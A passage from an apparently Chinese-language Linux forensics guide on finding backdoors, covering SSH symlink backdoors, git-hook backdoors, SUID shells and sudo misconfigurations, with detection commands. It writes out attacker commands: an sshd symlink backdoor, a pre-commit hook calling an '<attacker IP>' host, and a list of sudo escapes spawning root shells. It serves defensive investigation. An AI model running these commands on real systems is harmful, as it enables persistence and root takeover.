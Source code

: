### 1.7 其他
#### 1.7.1 ssh软链接后门
软链接后门是一种比较特殊的后门，形式如下：
```shell
ln -sf /usr/sbin/sshd /xxx/su;/xxx/su -oPort=$port_num
```
使用ps aux && netstat -ntaup等命令查看进程名时能快速发现该后门，特点在于文件名必须为su。

#### 1.7.2 Git hooks后门（未证实）
利用git commit时触发反弹shell的逻辑。典型形式如下：
```shell
echo "xterm -display <attacker IP>:1 &" > .git/hooks/pre-commit
chmod +x .git/hooks/pre-commit

Xnest:1
```

排查方式：所有本地的仓库内是否含有该文件及xterm关键字。
```shell
find / -name .git -exec grep -nr xterm {} \; 2>/dev/null
```

## 2 提权类后门排查

提权后门的取证在实际场合下意义不大。

一般来说攻击者具备提权为root的能力后都会直接在root权限下做持久化，以免每一次登录都要走一遍提权流程很麻烦。

### 2.1 suid shell
方法就是检查所有属主的x位被置为s的文件。检查方式是使用包管理器检查或二进制逆向的方式检查所有输出的结果。
find / -perm -4000 -uid 0 2>/dev/null

### 2.2 sudo配置不当-受限命令绕过
部分自带参数执行shell命令的命令如果经sudo配置下发给普通用户，普通用户可以用该参数提权为root。但在实际场景下基本遇不到，即便sudo的配置存在该问题，如果历史记录没记录到就无法取证该事件。

这种场景下sudo配置文件常常添加了形如如下的配置：
```shell
testme ALL=(ALL) NOPASSWD: /usr/bin/vi
apache ALL=(root) NOPASSWD:/usr/bin/zip
```
除了上面的命令vi与zip以外，还包括很多命令：
```shell
tar/more/less/man/ftp/python/vim/find/strace/git/passwd/awk
```

对应攻击者进行利用的方式：
```
sudo zip ./7.zip /tmp -T --unzip-command="sh -c /bin/bash"
sudo tar cf /dev/null test.tar --checkpoint=1 --checkpoint-action=exec=/bin/bash
sudo more /tmp/a.txt ; !/bin/bash
sudo less /tmp/a.txt; !/bin/bash
sudo man ssh; !/bin/bash
sudo ftp; !/bin/bash
sudo vim -c '!sh'
sudo find /bin/ -name ls -exec '/bin/bash' \;
sudo strace -o /dev/null /bin/bash
echo "os.execute('/bin/bash')" > /tmp/shell.nse
sudo nmap --script=/tmp/shell.nse
sudo git help status;!/bin/bash
sudo passwd
sudo awk 'BEGIN{system("/bin/bash")}'
sudo /usr/bin/python -c 'import pty;pty.spawn("/bin/bash")'
```
### 2.3 目录或文件与进程的属主不一致导致提权
